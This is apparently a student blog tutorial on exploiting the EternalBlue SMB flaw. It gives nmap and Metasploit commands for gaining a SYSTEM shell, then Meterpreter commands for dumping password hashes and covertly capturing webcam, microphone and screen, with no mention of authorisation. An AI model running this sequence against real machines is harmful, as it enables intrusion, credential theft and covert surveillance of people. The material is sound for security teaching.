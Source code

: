 This week I am going to explain how to utilize the Eternal Blue exploit.  First a little background on how the exploit works.
Is an exploit that uses vulnerabilities in the Windows implementation of the SMB protocol. It allows attackers to remotely execute
arbitrary code and gain access to a network by sending specially crafted packets. This exploit potentially allows attackers access
to the entire network and all devices connected. This was patched with MS17-010 in March of 2017. There are three bugs that allow
this to happen first is a mathematical error when the protocol tries to cast OS/2 FEA to an NT FEA structure that causes a buffer
overflow. Triggering of the buffer overflow is possible because the protocols definition of two subcommands differs. This is 
significant because an error in validation occurs if the client sends a crafted message using the NT_TRANSACT sub-command immediately 
before the TRANSACTION2 one. While the protocol recognizes that two separate sub-commands have been received, it assigns the type
and size of both packets (and allocates memory accordingly) based only on the type of the last one received. Since the last one is
smaller, the first packet will occupy more space than it is allocated.  The third bug allows heap spraying, which allows attackers to
run shell code.  There are a few things that make this exploit so dangerous, the main one is the exploit give you shell access as
system NT.  This exploit can be used a few different operating systems, windows 7, xp, server 2008 are a few.  Even those this 
exploit has been patched for over two years many enterprise companies still utilize these systems.

First to see if a system is even vulnerable to this exploit, you can use any type of recon software, I am going to use nmap.
The command to check for it is:
	
	nmap -sC -sV --script vuln <target IP>

![nmap](https://v1ndl3r.github.io/CIT480/assets/BE.PNG "nmap")

Next you will need to run metasploit framework:
	
	msfconsole 
	search eternal
	use 3

![msfconsole](https://v1ndl3r.github.io/CIT480/assets/EB1.PNG "meta")

	set RHOSTS <target IP>
	run or exploit 
	ctrl+z (to background your session)
	sessions -u 1 (will upgrade your shell)
	migrate <PID> (It is a good idea to migrate your PS)


![options](https://v1ndl3r.github.io/CIT480/assets/EB-1.PNG "options")


![NT SYSTEM](https://v1ndl3r.github.io/CIT480/assets/EB-2.PNG "NT SYSTEM")

You know how full control of the system and can load other exploits or mess with the target.

hashdump - will give you a dump of all the hashes on the machine.
webcam_snap - Will take a picture from the webcam.
webcam_stream -  will give you a live video.
record_mic - will record audio.
screenshot - will take a screenshot of their screen.




